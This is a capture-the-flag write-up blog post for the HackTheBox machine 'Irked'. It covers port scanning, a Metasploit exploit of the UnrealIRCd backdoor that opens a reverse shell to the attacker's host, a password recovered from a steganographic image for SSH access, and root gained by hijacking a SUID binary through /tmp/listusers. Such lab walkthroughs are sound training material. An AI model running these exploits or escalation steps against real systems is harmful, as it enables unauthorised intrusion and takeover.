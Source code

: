 ```yaml
---
layout: post
title: Hackthebox Irked Writeup
categories: HackTheBox
---
```


<img src="/public/images/2019-04-27/irked_badge.png"><br>
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
This is a write-up of machine "Irked" on that website.

## Solution
### 1. Initial Enumeration
Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.117 -sV -sC
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-29 23:55 EET
Nmap scan report for 10.10.10.117
Host is up (0.037s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38929/tcp  status
|_  100024  1          55964/udp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
38929/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.62 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u http://10.10.10.117/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.117/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Timeout      : 10s
=====================================================
2019/04/14 18:02:39 Starting gobuster
=====================================================
/manual (Status: 301)
/server-status (Status: 403)
=====================================================
2019/04/14 18:15:34 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
We can find a vulnerability of "UnrealIRC" on Exploit database.
{% highlight shell %}
root@kali:~# searchsploit unrealirc
--------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                         |  Path
                                                                                       | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                           | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                         | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                              | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

To execute the exploit, launch metasploit console.
{% highlight shell %}
msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 10.10.10.117
rhost => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Uccg9OJybaPvTmSP;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Uccg9OJybaPvTmSP\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:51673) at 2019-04-14 17:49:40 +0300

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
{% endhighlight %}

In directory "/home/djmardov/Documents", we can find user.txt and interesting file ".backup".<br>
Since we're not use djmardov, we don't have a permission to read user.txt
{% highlight shell %}
pwd
/home/djmardov/Documents
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
{% endhighlight %}

Sounds the content of .backup is password for "steganography"
{% highlight shell %}
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
{% endhighlight %}

On the top page of port 80, we can find a image file "irked.jpg"
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2019-04-27/2019-04-14-18-42-16.png)

We can use <a href=''>this website</a> to decode the data of irked.jpg.<br>
The data achieved is "Kab6h+m+bbp2J:HG".<br>
{% highlight shell %}
djmardov:Kab6h+m+bbp2J:HG
{% endhighlight %}

We can take advantage of the credential above for ssh connection.
{% highlight shell %}
root@kali:~# ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password: 

~~~

Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
{% endhighlight %}

unlike other boxes, user.txt in in a directory "Documents".
{% highlight shell %}
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

### 3. Getting Root
By enumeration, we can find some binary files which have SUID.
{% highlight shell %}
djmardov@irked:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
{% endhighlight %}

We can see an unordinary binary file "viewuser".
{% highlight shell %}
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-11 15:02 (:0)
djmardov pts/0        2019-04-14 11:05 (10.10.14.23)
sh: 1: /tmp/listusers: not found
{% endhighlight %}

Sounds like we need an input for "viewuser" and shell tries to execute it.<br>
Then put a command to "/tmp/listusers". We can confirm it is executed.
{% highlight shell %}
djmardov@irked:~$ echo /bin/bash > /tmp/listusers
djmardov@irked:~$ chmod 777 /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-23 17:05 (:0)
djmardov pts/0        2019-04-27 15:35 (10.10.14.23)
root@irked:~#
{% endhighlight %}

root.txt is in a directory "/root/".
{% highlight shell %}
root@irked:~# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
{% endhighlight %}
